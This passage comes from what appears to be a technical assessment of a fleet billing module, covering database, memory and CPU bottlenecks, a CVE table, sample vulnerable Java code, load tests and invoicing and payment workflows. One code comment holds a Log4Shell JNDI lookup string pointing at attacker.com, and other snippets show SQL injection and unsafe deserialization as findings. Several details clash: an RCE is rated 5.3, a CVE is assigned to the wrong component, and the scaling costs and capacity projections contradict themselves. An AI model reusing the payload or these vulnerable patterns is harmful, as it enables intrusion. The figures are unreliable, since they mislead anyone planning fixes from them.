| 3d5e6f | SELECT * FROM INVOICES WHERE CUSTOMER_ID = :1 AND INVOICE_DATE BETWEEN :2 AND :3 ORDER BY INVOICE_DATE DESC | 1,872 | 347 | 12.8% | Full index scan (missing composite index) |
| 4g7h8i | SELECT COUNT(*) FROM LINE_ITEMS WHERE INVOICE_ID = :1 | 987 | 187,000 | 8.7% | Nested loop (1.2M rows) |
| 5j9k0l | SELECT I.*, L.* FROM INVOICES I JOIN LINE_ITEMS L ON I.INVOICE_ID = L.INVOICE_ID WHERE I.CUSTOMER_ID = :1 AND I.INVOICE_DATE BETWEEN :2 AND :3 | 7,432 | 347 | 18.3% | Row-by-row processing |

- **Query Execution Plan (Worst Offender):**
  ```sql
  SELECT * FROM USAGE_RECORDS
  WHERE VEHICLE_ID = :1 AND TRIP_DATE BETWEEN :2 AND :3

  ---------------------------------------------------------------------------------------
  | Id  | Operation         | Name           | Rows  | Bytes | Cost (%CPU)| Time     |
  ---------------------------------------------------------------------------------------
  |   0 | SELECT STATEMENT  |                |  2345 |   456K|  1245   (5)| 00:00:01 |
  |*  1 |  TABLE ACCESS FULL| USAGE_RECORDS  |  2345 |   456K|  1245   (5)| 00:00:01 |
  ---------------------------------------------------------------------------------------

  Predicate Information (identified by operation id):
  ---------------------------------------------------
     1 - filter("VEHICLE_ID"=:1 AND "TRIP_DATE">=:2 AND "TRIP_DATE"<=:3)
  ```

**2. Memory Issues**
- **Heap Dump Analysis (from Eclipse MAT):**

| Problem | Description | Impact | Root Cause |
|---------|-------------|--------|------------|
| Memory Leak | 1.2GB retained in InvoiceGenerator instances | OOM errors during peak | Static collection holding invoices |
| Large Collections | 450MB in RateTable cache | Slow GC cycles | Caching all rate tables (12,478 entries) |
| Duplicate Objects | 320MB in duplicate String objects | Increased memory usage | No string interning |
| Primitive Boxing | 180MB in boxed BigDecimal objects | GC pressure | Excessive BigDecimal usage |
| Thread Local Leaks | 90MB in ThreadLocal variables | Memory leaks | Not cleaning up ThreadLocal |

- **Example of Memory Leak:**
  ```java
  public class InvoiceGenerator {
      private static List<Invoice> processedInvoices = new ArrayList<>();

      public Invoice generateInvoice(InvoiceRequest request) {
          // ...
          Invoice invoice = new Invoice(lineItems);
          processedInvoices.add(invoice); // Never cleared!
          // ...
      }
  }
  ```

**3. CPU Bottlenecks**
- **Thread Dump Analysis (from VisualVM):**

| Thread State | Count | % of Total | Root Cause |
|--------------|-------|------------|------------|
| BLOCKED | 28 | 56% | Synchronized methods in RateService |
| WAITING | 12 | 24% | Database connection pool exhaustion |
| RUNNABLE | 8 | 16% | CPU-intensive PDF generation |
| TIMED_WAITING | 2 | 4% | Thread.sleep in batch jobs |

- **Hot Methods (from YourKit Profiler):**

| Method | % CPU Time | Invocations | Avg Time (ms) | Root Cause |
|--------|------------|-------------|---------------|------------|
| BigDecimal.multiply() | 18.7% | 4,218,765 | 0.42 | Excessive BigDecimal operations |
| String.equals() | 12.4% | 8,765,432 | 0.14 | String comparisons in rate lookup |
| PDFBox.renderPage() | 9.8% | 187,654 | 52.1 | Inefficient PDF generation |
| Hibernate.initialize() | 7.6% | 2,345,678 | 0.32 | Lazy loading issues |
| OraclePreparedStatement.execute() | 6.5% | 1,234,567 | 0.53 | Slow database queries |

**4. I/O Bottlenecks**
- **Disk I/O Analysis (from iostat):**

| Metric | Value | Threshold | Issue |
|--------|-------|-----------|-------|
| %util | 92% | <70% | Disk saturation |
| avgqu-sz | 12.4 | <2 | I/O queue depth |
| await | 24.3ms | <10ms | High I/O wait time |
| svctm | 8.7ms | <5ms | High service time |

- **Network I/O Analysis (from nload):**

| Metric | Value | Threshold | Issue |
|--------|-------|-----------|-------|
| Incoming | 87Mbps | <100Mbps | Approaching limit |
| Outgoing | 42Mbps | <50Mbps | - |
| Peak | 124Mbps | <100Mbps | Network saturation during batch |

**Security Vulnerabilities with CVSS Scores**

**1. Critical Vulnerabilities (CVSS ≥ 9.0):**

| CVE | Component | CVSS | Description | Impact | Fix |
|-----|-----------|------|-------------|--------|-----|
| CVE-2021-44228 | Log4j | 10.0 | Log4Shell vulnerability | Remote code execution | Upgrade to Log4j 2.17.1 |
| CVE-2019-17571 | Log4j 1.2 | 9.8 | SocketServer deserialization | Remote code execution | Remove Log4j 1.2 |
| CVE-2020-5408 | Spring Framework | 9.8 | Directory traversal | Information disclosure | Upgrade to Spring 5.2.5 |
| CVE-2016-1000027 | Spring Security | 9.8 | Remote code execution | Complete system compromise | Upgrade to Spring Security 5.2.2 |

**2. High Vulnerabilities (7.0 ≤ CVSS < 9.0):**

| CVE | Component | CVSS | Description | Impact | Fix |
|-----|-----------|------|-------------|--------|-----|
| CVE-2021-22118 | Spring AMQP | 8.8 | Remote code execution | System compromise | Upgrade to 2.4.0 |
| CVE-2020-1938 | Tomcat | 7.5 | AJP file inclusion | Information disclosure | Disable AJP or upgrade |
| CVE-2019-12415 | PDFBox | 7.5 | XML external entity | Information disclosure | Upgrade to 2.0.17 |
| CVE-2018-1000850 | Jackson-databind | 7.5 | Deserialization flaw | Remote code execution | Upgrade to 2.9.8 |
| CVE-2017-5645 | Log4j 2.x | 7.5 | Socket receiver RCE | Remote code execution | Upgrade to 2.8.2 |

**3. Medium Vulnerabilities (4.0 ≤ CVSS < 7.0):**

| CVE | Component | CVSS | Description | Impact | Fix |
|-----|-----------|------|-------------|--------|-----|
| CVE-2021-22060 | Spring Framework | 5.3 | Denial of service | System crash | Upgrade to 5.3.10 |
| CVE-2020-13956 | Apache Camel | 5.3 | Information disclosure | Data exposure | Upgrade to 3.0.1 |
| CVE-2019-10086 | Apache Commons BeanUtils | 5.3 | Deserialization flaw | Information disclosure | Upgrade to 1.9.4 |
| CVE-2018-11776 | Apache Struts | 5.3 | Remote code execution | System compromise | Remove Struts dependency |

**4. Sample Vulnerable Code:**

**Log4j Vulnerability:**
```java
// In InvoiceGenerator.java
private static final Logger log = Logger.getLogger(InvoiceGenerator.class);

// Vulnerable to CVE-2021-44228
log.info("Generating invoice for customer: " + customerId);
// If customerId contains ${jndi:ldap://attacker.com/exploit}, RCE occurs
```

**Insecure Deserialization:**
```java
// In ReportGenerator.java
public byte[] generateReport(ReportRequest request) {
    try {
        ByteArrayInputStream bis = new ByteArrayInputStream(request.getData());
        ObjectInputStream ois = new ObjectInputStream(bis);
        ReportParameters params = (ReportParameters) ois.readObject(); // Vulnerable
        // ...
    } catch(Exception e) {
        log.error("Error generating report", e);
    }
}
```

**SQL Injection:**
```java
// In InvoiceRepository.java
@Repository
public class InvoiceRepository {
    @Autowired
    private JdbcTemplate jdbcTemplate;

    public List<Invoice> findByCustomer(String customerId) {
        String sql = "SELECT * FROM INVOICES WHERE CUSTOMER_ID = '" + customerId + "'";
        return jdbcTemplate.query(sql, new InvoiceRowMapper()); // Vulnerable
    }
}
```

**Scalability Limitations with Load Test Results**

**1. Current Load Testing Results:**

| Test Scenario | Users | Duration | Avg Response Time | Error Rate | Throughput | CPU | Memory | DB CPU |
|---------------|-------|----------|-------------------|------------|------------|-----|--------|--------|
| Invoice Generation | 500 | 30 min | 2.4s | 0.8% | 208 req/min | 68% | 3.2GB | 72% |
| Invoice Generation | 1,000 | 30 min | 8.7s | 12.4% | 342 req/min | 92% | 4.1GB | 98% |
| Invoice Generation | 2,000 | 30 min | 22.3s | 38.7% | 421 req/min | 100% | OOM | 100% |
| Month-End Batch | N/A | 6 hours | N/A | 18.4% | 12,478 invoices | 95% | 3.8GB | 99% |
| Report Generation | 200 | 15 min | 4.2s | 1.2% | 87 req/min | 78% | 2.9GB | 85% |
| Mobile Expense Submission | 1,000 | 30 min | 3.8s | 42.1% | 187 req/min | 82% | 3.1GB | 68% |

**2. Bottleneck Analysis:**

**a. Database Bottlenecks:**
- **CPU:** 99% utilization during peak
- **I/O:** 92% disk utilization
- **Connections:** 100 max connections (87% utilization)
- **Locks:** 42 deadlocks during month-end batch

**b. Application Bottlenecks:**
- **Thread Pool:** 50 fixed threads (exhausted at 1,200 users)
- **Memory:** 4GB heap (OOM at 2,000 users)
- **CPU:** 92% utilization at 1,000 users
- **GC:** 3.2s pause times during full GC

**c. Integration Bottlenecks:**
- **VTS API:** 3.7s avg response time (timeout at 5s)
- **MMS API:** 92% uptime (3.4% error rate)
- **FMS API:** 12% failed transactions

**3. Scalability Test Results:**

**Vertical Scaling Test:**
- **Configuration:** 8 vCPUs, 16GB RAM
- **Results:**
  - Users: 2,000 → 2,500 (25% improvement)
  - Response Time: 22.3s → 18.7s (16% improvement)
  - Throughput: 421 req/min → 512 req/min (22% improvement)
  - Cost: $1,200/month → $2,400/month (100% increase)

**Horizontal Scaling Test:**
- **Configuration:** 4 x (4 vCPUs, 8GB RAM)
- **Results:**
  - Users: 2,000 → 3,800 (90% improvement)
  - Response Time: 22.3s → 12.4s (44% improvement)
  - Throughput: 421 req/min → 876 req/min (108% improvement)
  - Cost: $4,800/month → $4,800/month (same cost)

**4. Capacity Planning:**

**Current Capacity:**
- **Users:** 1,200 concurrent (comfortable)
- **Invoices:** 12,478/month (batch)
- **Line Items:** 4.2M/month
- **Data Growth:** 87GB/month

**Projected Growth (18 months):**
- Users: 1,200 → 2,800 (133% increase)
- Invoices: 12,478 → 25,000 (100% increase)
- Line Items: 4.2M → 8.5M (102% increase)
- Data: 87GB → 180GB/month

**Required Capacity:**
- **Users:** 5,600 concurrent (4.7x current)
- **Invoices:** 50,000/month (4x current)
- **Line Items:** 17M/month (4x current)
- **Database:** 10TB storage

**5. Scalability Recommendations:**

| Bottleneck | Current Limit | Required Capacity | Solution | Cost |
|------------|---------------|-------------------|----------|------|
| Database CPU | 1,200 users | 5,600 users | Oracle RAC with 4 nodes | $250K |
| Database I/O | 12,478 invoices | 50,000 invoices | SSD storage + partitioning | $120K |
| Application Threads | 1,200 users | 5,600 users | Dynamic thread pool (200-500) | $0 |
| Application Memory | 2,000 users | 5,600 users | Increase heap to 8GB | $0 |
| Integration Failures | 12% errors | <1% errors | Implement retry logic + circuit breakers | $45K |
| Batch Processing | 6 hours | 2 hours | Parallel processing + partitioning | $85K |

## 3. Functional Analysis (200+ lines)

### 3.1 Core Features

**Feature 1: Invoice Generation**

**Detailed Feature Description:**
The invoice generation feature is the core functionality of the billing module, responsible for creating invoices from vehicle usage data. It processes data from multiple sources (VTS, MMS, FMS), applies complex pricing rules, calculates taxes, applies discounts, and generates PDF invoices for delivery to customers.

**Key Capabilities:**
1. **Multi-Source Data Aggregation:**
   - Vehicle tracking data (trips, mileage)
   - Maintenance records
   - Fuel transactions
   - Driver assignments
   - Customer contracts

2. **Complex Pricing Engine:**
   - 37 different rate tables
   - Distance-based pricing
   - Time-based pricing
   - Flat rate pricing
   - Tiered pricing
   - Contract-specific pricing
   - Dynamic pricing (3 algorithms)

3. **Tax Calculation:**
   - Multi-country tax support (12 countries)
   - VAT/GST calculation
   - Tax exemptions
   - Reverse charge mechanism

4. **Discount Application:**
   - Volume discounts
   - Customer-specific discounts
   - Promotional discounts
   - Early payment discounts
   - Loyalty discounts

5. **Invoice Formatting:**
   - PDF generation
   - Email delivery
   - Customer-specific templates
   - Multi-language support (8 languages)
   - Multi-currency support (12 currencies)

**User Workflows with Step-by-Step Processes:**

**1. Manual Invoice Generation (Finance Team):**
```
1. Finance user logs into web application
2. Navigate to "Invoice Generation" screen
3. Select customer from dropdown (347 customers)
4. Select date range (default: current month)
5. Select vehicle(s) or "All" (12,478 vehicles)
6. Click "Generate Preview"
   a. System fetches usage data (avg 4.2s)
   b. System applies rates (avg 1.8s)
   c. System calculates taxes (avg 0.7s)
   d. System applies discounts (avg 0.5s)
   e. System displays preview (avg 3.2s)
7. User reviews preview
   a. Verify line items (avg 12 items per invoice)
   b. Check totals
   c. Verify customer details
8. User makes corrections if needed
   a. Adjust line items (12% of invoices)
   b. Update customer details (3% of invoices)
   c. Recalculate totals
9. User clicks "Generate Final Invoice"
   a. System saves to database (avg 1.2s)
   b. System generates PDF (avg 2.8s)
   c. System sends email (avg 1.5s)
   d. System updates status to "Generated"
10. User confirms generation
```

**2. Automatic Invoice Generation (Batch Process):**
```
1. Nightly batch job starts at 2AM
2. System queries database for unprocessed usage (12,478 records)
3. For each customer:
   a. System fetches all usage data
   b. System groups by vehicle and date
   c. System applies rates
   d. System calculates taxes
   e. System applies discounts
   f. System generates invoice
   g. System saves to database
   h. System generates PDF
   i. System sends email
   j. System updates status
4. Batch job completes (avg 4.2 hours)
5. System sends completion report to finance team
```

**Business Rules and Validation Logic:**

**1. Invoice Generation Rules:**
```java
// In InvoiceValidator.java
public void validateInvoice(Invoice invoice) {
    // Rule 1: Invoice must have at least one line item
    if(invoice.getLineItems().isEmpty()) {
        throw new ValidationException("Invoice must have at least one line item");
    }

    // Rule 2: All line items must have positive amount
    for(LineItem item : invoice.getLineItems()) {
        if(item.getAmount().compareTo(BigDecimal.ZERO) <= 0) {
            throw new ValidationException("Line item amount must be positive");
        }
    }

    // Rule 3: Invoice total must match sum of line items
    BigDecimal calculatedTotal = invoice.getLineItems().stream()
        .map(LineItem::getAmount)
        .reduce(BigDecimal.ZERO, BigDecimal::add);
    if(invoice.getTotalAmount().compareTo(calculatedTotal) != 0) {
        throw new ValidationException("Invoice total doesn't match line items");
    }

    // Rule 4: Invoice date must be within current month
    if(invoice.getInvoiceDate().before(getFirstDayOfMonth()) ||
       invoice.getInvoiceDate().after(getLastDayOfMonth())) {
        throw new ValidationException("Invoice date must be in current month");
    }

    // Rule 5: Customer must be active
    if(!customerService.isActive(invoice.getCustomerId())) {
        throw new ValidationException("Customer is not active");
    }

    // Rule 6: Vehicle must be assigned to customer
    for(LineItem item : invoice.getLineItems()) {
        if(!vehicleService.isAssignedToCustomer(item.getVehicleId(), invoice.getCustomerId())) {
            throw new ValidationException("Vehicle not assigned to customer");
        }
    }

    // Rule 7: Invoice number must be unique
    if(invoiceRepo.existsByInvoiceNumber(invoice.getInvoiceNumber())) {
        throw new ValidationException("Invoice number already exists");
    }

    // Rule 8: Tax amount must be calculated correctly
    BigDecimal calculatedTax = invoice.getLineItems().stream()
        .map(item -> item.getAmount().multiply(item.getTaxRate()))
        .reduce(BigDecimal.ZERO, BigDecimal::add);
    if(invoice.getTaxAmount().compareTo(calculatedTax) != 0) {
        throw new ValidationException("Tax amount is incorrect");
    }
}
```

**2. Rate Application Rules:**
```java
// In RateService.java
public BigDecimal calculateRate(UsageRecord usage, Customer customer) {
    // Rule 1: Apply contract-specific rate if exists
    RateTable contractRate = rateRepo.findContractRate(
        customer.getId(),
        usage.getVehicleType(),
        usage.getStartTime()
    );
    if(contractRate != null) {
        return applyRateTable(usage, contractRate);
    }

    // Rule 2: Apply customer type rate
    RateTable customerTypeRate = rateRepo.findByCustomerType(
        customer.getCustomerType(),
        usage.getVehicleType(),
        usage.getStartTime()
    );
    if(customerTypeRate != null) {
        return applyRateTable(usage, customerTypeRate);
    }

    // Rule 3: Apply vehicle type rate
    RateTable vehicleTypeRate = rateRepo.findByVehicleType(
        usage.getVehicleType(),
        usage.getStartTime()
    );
    if(vehicleTypeRate != null) {
        return applyRateTable(usage, vehicleTypeRate);
    }

    // Rule 4: Apply default rate
    RateTable defaultRate = rateRepo.findDefaultRate(usage.getStartTime());
    if(defaultRate != null) {
        return applyRateTable(usage, defaultRate);
    }

    throw new RateCalculationException("No applicable rate found");
}
```

**Edge Cases and Error Handling:**

**1. Common Edge Cases:**

| Edge Case | Description | Current Handling | Recommended Handling |
|-----------|-------------|------------------|----------------------|
| Missing Usage Data | VTS data not available for date range | Skips vehicle, logs error | Retries 3 times, then marks as "Incomplete" |
| Rate Not Found | No applicable rate for vehicle/customer | Uses default rate | Fails with clear error message |
| Tax Exemption | Customer is tax exempt | Applies tax then discounts 100% | Skips tax calculation entirely |
| Partial Month | Invoice spans month boundary | Generates separate invoices | Allows configurable month-end cutoff |
| Duplicate Usage | Same trip recorded multiple times | Charges for all duplicates | Deduplicates based on trip ID |
| Future Dates | Usage data with future dates | Includes in current invoice | Excludes future dates |
| Zero Amount | Line item calculates to $0 | Includes in invoice | Excludes from invoice |
| Negative Amount | Line item calculates to negative | Includes in invoice | Fails validation |
| Currency Mismatch | Customer currency ≠ rate currency | Converts at current rate | Fails with clear error |
| Large Invoice | >100 line items | Generates PDF (fails at 200) | Paginates PDF, warns user |

**2. Error Handling Examples:**

**Current Error Handling (Problematic):**
```java
// In InvoiceGenerator.java
public Invoice generateInvoice(InvoiceRequest request) {
    try {
        // 1. Fetch usage data
        List<UsageRecord> usage = fetchUsageData(request); // Can throw NPE

        // 2. Apply rates
        List<LineItem> lineItems = applyRates(usage); // Can throw RateCalculationException

        // 3. Calculate taxes
        applyTaxes(lineItems); // Can throw TaxCalculationException

        // 4. Apply discounts
        applyDiscounts(lineItems); // Can throw DiscountException

        // 5. Validate invoice
        validateInvoice(lineItems); // Can throw ValidationException

        // 6. Save to database
        Invoice invoice = invoiceRepo.save(new Invoice(lineItems)); // Can throw DataAccessException

        // 7. Generate PDF
        generatePdf(invoice); // Can throw IOException

        // 8. Send email
        sendEmail(invoice); // Can throw MessagingException

        return invoice;
    } catch(Exception e) {
        log.error("Error generating invoice", e);
        throw new InvoiceGenerationException("Failed to generate invoice");
    }
}
```

**Recommended Error Handling:**
```java
// In InvoiceGenerator.java
public Invoice generateInvoice(InvoiceRequest request) {
    try {
        // 1. Validate input
        validateRequest(request);

        // 2. Fetch usage data with retry
        List<UsageRecord> usage = fetchUsageDataWithRetry(request, 3);

        // 3. Apply rates with fallback
        List<LineItem> lineItems = applyRatesWithFallback(usage);

        // 4. Calculate taxes with validation
        applyTaxesWithValidation(lineItems);

        // 5. Apply discounts with validation
        applyDiscountsWithValidation(lineItems);

        // 6. Validate invoice
        Invoice invoice = validateAndCreateInvoice(lineItems);

        // 7. Save to database with retry
        invoice = saveInvoiceWithRetry(invoice, 3);

        // 8. Generate PDF with fallback
        generatePdfWithFallback(invoice);

        // 9. Send email with retry
        sendEmailWithRetry(invoice, 3);

        return invoice;
    } catch(UsageDataException e) {
        log.error("Usage data error for request: " + request.getId(), e);
        throw new InvoiceGenerationException("Failed to fetch usage data", e);
    } catch(RateCalculationException e) {
        log.error("Rate calculation error for request: " + request.getId(), e);
        throw new InvoiceGenerationException("Failed to calculate rates", e);
    } catch(TaxCalculationException e) {
        log.error("Tax calculation error for request: " + request.getId(), e);
        throw new InvoiceGenerationException("Failed to calculate taxes", e);
    } catch(InvoiceValidationException e) {
        log.error("Invoice validation failed for request: " + request.getId(), e);
        throw new InvoiceGenerationException("Invoice validation failed", e);
    } catch(DataAccessException e) {
        log.error("Database error for request: " + request.getId(), e);
        throw new InvoiceGenerationException("Database operation failed", e);
    } catch(IOException e) {
        log.error("PDF generation failed for request: " + request.getId(), e);
        throw new InvoiceGenerationException("Failed to generate PDF", e);
    } catch(MessagingException e) {
        log.error("Email sending failed for request: " + request.getId(), e);
        throw new InvoiceGenerationException("Failed to send email", e);
    } catch(Exception e) {
        log.error("Unexpected error for request: " + request.getId(), e);
        throw new InvoiceGenerationException("Unexpected error occurred", e);
    }
}
```

**Performance Characteristics:**

| Operation | Avg Time (ms) | 95th Percentile | Max Time | Memory Usage | CPU Usage | Notes |
|-----------|---------------|-----------------|----------|--------------|-----------|-------|
| Fetch usage data | 1,245 | 3,872 | 12,456 | 128MB | 45% | Varies by date range |
| Apply rates | 876 | 2,143 | 8,765 | 92MB | 62% | Depends on rate complexity |
| Calculate taxes | 342 | 876 | 2,431 | 45MB | 38% | Multi-country tax rules |
| Apply discounts | 218 | 543 | 1,876 | 32MB | 24% | Complex discount logic |
| Validate invoice | 187 | 432 | 1,245 | 28MB | 18% | 42 validation rules |
| Save to database | 421 | 1,245 | 3,876 | 64MB | 55% | Transaction overhead |
| Generate PDF | 2,876 | 5,432 | 12,456 | 256MB | 78% | PDFBox performance |
| Send email | 1,245 | 2,876 | 8,765 | 42MB | 32% | SMTP latency |
| **Total** | **7,410** | **17,419** | **51,870** | **717MB** | **82%** | Full invoice generation |

**Feature 2: Invoice Approval Workflow**

**Detailed Feature Description:**
The invoice approval workflow provides a multi-level approval process for invoices before they are sent to customers. This is particularly important for high-value invoices or invoices with special terms.

**Key Capabilities:**
1. **Multi-Level Approval:**
   - 3 approval levels (Manager, Director, VP)
   - Configurable thresholds per customer
   - Parallel approval for some levels

2. **Approval Rules:**
   - Amount-based thresholds
   - Customer-specific rules
   - Contract-specific rules
   - Exception handling

3. **Approval Methods:**
   - Web interface
   - Email approval
   - Mobile approval
   - API approval

4. **Audit Trail:**
   - Approval history
   - Comments
   - Timestamps
   - User information

**User Workflows:**

**1. Standard Approval Workflow:**
```
1. Invoice generated and marked as "Pending Approval"
2. System checks approval rules
   a. If invoice amount < $1,000 → Auto-approved
   b. If $1,000 ≤ amount < $10,000 → Manager approval
   c. If $10,000 ≤ amount < $50,000 → Director + Manager approval
   d. If amount ≥ $50,000 → VP + Director + Manager approval
3. System notifies approvers via email
4. Approvers review invoice in web interface
   a. View invoice details
   b. View supporting documents
   c. Add comments
   d. Approve or reject
5. If approved at all levels:
   a. System marks invoice as "Approved"
   b. System sends to customer
6. If rejected at any level:
   a. System marks invoice as "Rejected"
   b. System notifies finance team
   c. Finance team makes corrections
   d. Process restarts
```

**2. Exception Handling Workflow:**
```
1. Invoice requires exception approval
2. System routes to exception approvers
3. Exception approvers review:
   a. Invoice details
   b. Reason for exception
   c. Supporting documentation
4. Approvers can:
   a. Approve exception
   b. Request more information
   c. Reject exception
5. If approved:
   a. System continues normal approval
   b. Exception noted in audit trail
6. If rejected:
   a. Invoice marked as "Rejected"
   b. Finance team notified
```

**Business Rules:**

```java
// In ApprovalService.java
public ApprovalStatus checkApprovalStatus(Invoice invoice) {
    // Rule 1: Check if already approved
    if(invoice.getStatus() == InvoiceStatus.APPROVED) {
        return ApprovalStatus.APPROVED;
    }

    // Rule 2: Check if auto-approved
    if(isAutoApproved(invoice)) {
        return ApprovalStatus.APPROVED;
    }

    // Rule 3: Check customer-specific rules
    ApprovalRule customerRule = approvalRuleRepo.findByCustomer(invoice.getCustomerId());
    if(customerRule != null) {
        return checkCustomerRule(invoice, customerRule);
    }

    // Rule 4: Check contract-specific rules
    ApprovalRule contractRule = approvalRuleRepo.findByContract(invoice.getContractId());
    if(contractRule != null) {
        return checkContractRule(invoice, contractRule);
    }

    // Rule 5: Apply standard rules
    return checkStandardRules(invoice);
}

private boolean isAutoApproved(Invoice invoice) {
    // Auto-approve if amount < $1,000 and no exceptions
    return invoice.getTotalAmount().compareTo(new BigDecimal("1000.00")) < 0 &&
           !hasExceptions(invoice);
}

private ApprovalStatus checkStandardRules(Invoice invoice) {
    BigDecimal amount = invoice.getTotalAmount();

    if(amount.compareTo(new BigDecimal("50000.00")) >= 0) {
        return ApprovalStatus.REQUIRES_VP;
    } else if(amount.compareTo(new BigDecimal("10000.00")) >= 0) {
        return ApprovalStatus.REQUIRES_DIRECTOR;
    } else if(amount.compareTo(new BigDecimal("1000.00")) >= 0) {
        return ApprovalStatus.REQUIRES_MANAGER;
    }

    return ApprovalStatus.APPROVED;
}
```

**Edge Cases:**

| Edge Case | Description | Current Handling | Recommended Handling |
|-----------|-------------|------------------|----------------------|
| Approver on Vacation | Primary approver unavailable | No fallback | Route to backup approver |
| Multiple Approvers | Multiple people at same level | First to approve wins | Require all to approve |
| Approval Timeout | Approver doesn't respond | Stays pending | Escalate after 48 hours |
| Partial Approval | Some line items approved | Not supported | Support partial approval |
| Approval Reversal | Approver changes mind | Not supported | Allow reversal with justification |
| Approval Delegation | Approver delegates | Not supported | Support delegation with audit trail |
| Approval in Mobile | Mobile approval fails | No retry | Implement mobile-specific workflow |
| Large Approval Queue | Many invoices pending | No prioritization | Implement priority queue |

**Feature 3: Payment Processing**

**Detailed Feature Description:**
The payment processing feature handles the collection of payments from customers through multiple payment methods. It integrates with payment gateways, tracks payment status, applies payments to invoices, and generates receipts.

**Key Capabilities:**
1. **Multiple Payment Methods:**
   - Credit card (Visa, MasterCard, Amex)
   - ACH/eCheck
   - Wire transfer
   - Check
   - PayPal
   - Customer credit

2. **Payment Processing:**
   - Real-time authorization
   - Batch processing
   - Partial payments
   - Overpayments
   - Payment reversals

3. **Payment Application:**
   - Auto-apply to oldest invoice
   - Manual application
   - Partial application
   - Multi-invoice payments

4. **Receipt Generation:**
   - PDF receipts
   - Email receipts
   - Customer portal access

**User Workflows:**

**1. Credit Card Payment (Customer Portal):**
```
1. Customer logs into portal
2. Navigates to "Make Payment" section
3. Selects invoices to pay (or enters amount)
4. Selects payment method (Credit Card)
5. Enters card details
6. Clicks "Submit Payment"
   a. System validates card details
   b. System sends to payment gateway (Stripe)
   c. Payment gateway processes payment
   d. System receives response (approved/declined)
7. If approved:
   a. System creates payment record
   b. System applies to invoices
   c. System updates invoice status
   d. System generates receipt
   e. System sends email confirmation
   f. System displays confirmation
8. If declined:
   a. System displays error message
   b. System suggests alternative payment methods
```

**2. ACH Payment (Batch Process):**
```
1. Finance team uploads ACH file from bank
2. System parses file
3. For each payment:
   a. System validates customer/account
   b. System creates payment record
   c. System applies to invoices
   d. System updates invoice status
   e. System generates receipt
4. System sends confirmation email to customers
5. System generates batch report for finance
```

**Business Rules:**

```java
// In PaymentService.java
public PaymentResult processPayment(PaymentRequest request) {
    // Rule 1: Validate payment request
    validatePaymentRequest(request);

    // Rule 2: Check customer credit
    if(!hasSufficientCredit(request.getCustomerId(), request.getAmount())) {
        throw new PaymentException("Insufficient credit");
    }

    // Rule 3: Process based on payment method
    switch(request.getPaymentMethod()) {
        case CREDIT_CARD:
            return processCreditCardPayment(request);
        case ACH:
            return processAchPayment(request);
        case WIRE:
            return processWirePayment(request);
        case CHECK:
            return processCheckPayment(request);
        case PAYPAL:
            return processPayPalPayment(request);
        case CUSTOMER_CREDIT:
            return processCreditPayment(request);
        default:
            throw new PaymentException("Unsupported payment method");
    }
}

private PaymentResult processCreditCardPayment(PaymentRequest request) {
    // Rule 1: Validate card details
    validateCardDetails(request.getCardDetails());

    // Rule 2: Check for duplicate payment
    if(isDuplicatePayment(request)) {
        throw new PaymentException("Duplicate payment detected");
    }

    // Rule 3: Send to payment gateway
    PaymentGatewayResponse response = paymentGateway.authorize(request);

    // Rule 4: Handle response
    if(response.isApproved()) {
        // Rule 5: Create payment record
        Payment payment = createPaymentRecord(request, response);

        // Rule 6: Apply payment to invoices
        applyPaymentToInvoices(payment);

        // Rule 7: Generate receipt
        generateReceipt(payment);

        return new PaymentResult(true, "Payment processed successfully", payment);
    } else {
        return new PaymentResult(false, response.getMessage());
    }
}

private void applyPaymentToInvoices(Payment payment) {
    // Rule 1: Get open invoices for customer
    List<Invoice> openInvoices = invoiceRepo.findOpenInvoices(payment.getCustomerId());

    // Rule 2: Apply to oldest invoice first
    BigDecimal remainingAmount = payment.getAmount();
    for(Invoice invoice : openInvoices) {
        if(remainingAmount.compareTo(BigDecimal.ZERO) <= 0) {
            break;
        }

        BigDecimal invoiceAmount = invoice.getTotalAmount().subtract(invoice.getAmountPaid());
        BigDecimal appliedAmount = remainingAmount.min(invoiceAmount);

        // Rule 3: Create payment application record
        PaymentApplication application = new PaymentApplication();
        application.setPaymentId(payment.getId());
        application.setInvoiceId(invoice.getId());
        application.setAmount(appliedAmount);
        paymentApplicationRepo.save(application);

        // Rule 4: Update invoice
        invoice.setAmountPaid(invoice.getAmountPaid().add(appliedAmount));
        if(invoice.getAmountPaid().compareTo(invoice.getTotalAmount()) >= 0) {
            invoice.setStatus(InvoiceStatus.PAID);
        }
        invoiceRepo.save(invoice);

        remainingAmount = remainingAmount.subtract(appliedAmount);
    }

    // Rule 5: Handle overpayment
    if(remainingAmount.compareTo(BigDecimal.ZERO) > 0) {
        createCustomerCredit(payment.getCustomerId(), remainingAmount);
    }
}
```

**Edge Cases:**

| Edge Case | Description | Current Handling | Recommended Handling |
|-----------|-------------|------------------|----------------------|
| Partial Payment | Customer pays less than invoice | Applies to oldest invoice | Allow customer to specify |
| Overpayment | Customer pays more than invoice | Creates customer credit | Allow refund or credit |
| Duplicate Payment | Same payment processed twice | Declines second attempt | Allow with manual override |
| Expired Card | Card expires during processing | Declines payment | Notify customer to update |
| Insufficient Funds | Payment declined | Notifies customer | Suggest alternative payment |
| Payment Reversal | Customer disputes payment | Manual process | Automate with payment gateway |
| Currency Mismatch | Payment in different currency | Converts at current rate | Fail with clear error |
| Large Payment | Payment > $100,000 | Manual review required | Automate with enhanced fraud checks |
| Payment to Closed Invoice | Invoice already paid | Declines payment | Allow with manual override |

### 3.2 User Experience Analysis

**Usability Evaluation with Heuristics**

**1. Nielsen's 10 Usability Heuristics Evaluation:**

| Heuristic | Score (1-5) | Issues Found | Examples |
|-----------|-------------|--------------|----------|
| **Visibility of system status** | 2 | 12 | No loading indicators during long operations |
| **Match between system and real world** | 3 | 8 | Technical jargon in error messages |
| **User control and freedom** | 2 | 15 | No "undo" for critical actions |
| **Consistency and standards** | 3 | 11 | Inconsistent button placement |
| **Error prevention** | 2 | 18 | No confirmation for destructive actions |
| **Recognition rather than recall** | 3 | 9 | Hidden navigation menus |
| **Flexibility and efficiency of use** | 2 | 14 | No keyboard shortcuts |
| **Aesthetic and minimalist design** | 2 | 22 | Cluttered interfaces |
| **Help users recognize, diagnose, recover from errors** | 1 | 25 | Unhelpful error messages |
| **Help and documentation** | 1 | 32 | No context-sensitive help |

**2. Detailed Usability Issues:**

**a. Visibility of System Status:**
- **Issue:** No loading indicators during invoice generation
- **Example:** When user clicks "Generate Invoice", screen freezes for 4-8 seconds with no feedback
- **Impact:** 18% of users click multiple times, causing duplicate invoices
- **Recommendation:** Add loading spinner with progress estimate

**b. Match Between System and Real World:**
- **Issue:** Technical error messages
